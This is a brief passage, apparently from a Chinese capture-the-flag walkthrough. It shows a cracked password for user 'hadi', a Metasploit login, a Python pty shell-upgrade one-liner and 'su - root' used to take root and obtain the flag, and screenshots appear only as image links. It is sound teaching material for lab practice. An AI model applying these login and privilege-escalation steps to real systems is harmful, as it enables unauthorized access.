

最终可以得到hadi的密码是hadi123

#### 使用msfconsole登录服务器

将参数PASS_FILE改为具体的PASSWORD=>hadi123



成功进入

> 利用python -c "import pty;pty.spawn('/bin/bash')"命令把界面转化为我们常见的SSH命令行界面

#### 提权！

直接使用su - root命令提权，进入root权限



成功得到flag


